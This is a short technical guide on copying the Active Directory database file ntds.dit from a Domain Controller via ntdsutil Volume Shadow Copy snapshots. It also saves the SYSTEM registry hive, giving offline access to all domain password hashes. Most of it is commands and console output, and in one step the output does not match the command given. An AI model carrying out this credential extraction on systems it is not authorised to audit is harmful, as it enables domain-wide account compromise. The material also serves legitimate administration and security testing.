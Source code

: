 This technique consists of retrieving the Active Directory database from the Directory Service running on the Domain Controller, also known as the “ntds.dit” file. The idea is to use the Volume Shadow Copy functionality to grab a copy of the “ntds.dit” file, which would be locked & protected from read access otherwise.
First, take note of the state of the Volume Shadow Copy service before going any further. If the Volume Shadow Copy service is not already running, which isn’t by default, then using ntdsutil or vssadmin as described below will start the service for you. Remember to set the service back to its original state once finished.

Then, confirm the location of the ntds.dit file from the “DSA Database file” parameter:
```
C:\> reg.exe query hklm\system\currentcontrolset\services\ntds\parameters
```
At this stage, check the current size of the ntds.dit file and make sure there is at least twice as much free disk space. Once this is done, use the Windows built-in command-line tool [ntdsutil](http://technet.microsoft.com/en-us/library/cc753343.aspx) to create a snapshot of the active directory database.
```
C:\> ntdsutil
ntdsutil: snapshot
snapshot: activate instance NTDS
Active instance set to "NTDS".
snapshot: list all
No snapshots found.
// If there is a recent snapshot (ie. backups scheduled with Windows Server Backup), then consider using that instead of creating a new one.)
snapshot: create
Creating snapshot...
Snapshot set {ef026688-4c02-48b6-bc24-24df118eb7a2} generated successfully.
snapshot: list all
1: 2013/10/24:18:33 {ef026688-4c02-48b6-bc24-24df118eb7a2}
2: C: {5b8a2cd1-3f1a-4e32-8137-b8966699d2e1}
snapshot: mount 2
Snapshot {5b8a2cd1-3f1a-4e32-8137-b8966699d2e1} mounted as C:\$SNAP_201310241833_VOLUMEC$\
```
Now download the ntds.dit file from C:\\$SNAP\_201310241833\_VOLUMEC$\\Windows\\NTDS\ and also get a copy of the SYSTEM registry hive (eg. reg.exe save HKLM\\SYSTEM c:\\system.save).

Cleanup when done. Delete the copy of the system hive, and remove the snapshot:
```
snapshot: list all
1: 2013/10/24:18:33 {ef026688-4c02-48b6-bc24-24df118eb7a2}
2: C: {5b8a2cd1-3f1a-4e32-8137-b8966699d2e1} C:\$SNAP_201310241833_VOLUMEC$\
snapshot: unmount 2
Snapshot {5b8a2cd1-3f1a-4e32-8137-b8966699d2e1} unmounted.
snapshot: list all
1: 2013/10/24:18:33 {ef026688-4c02-48b6-bc24-24df118eb7a2}
2: C: {5b8a2cd1-3f1a-4e32-8137-b8966699d2e1}
snapshot: delete 1
Snapshot {5b8a2cd1-3f1a-4e32-8137-b8966699d2e1} deleted.
snapshot: ^C
```
Restore the VSS service back to its original state (ie. stop the service if it wasn’t running before, disable the service if you had to enable it etc.).
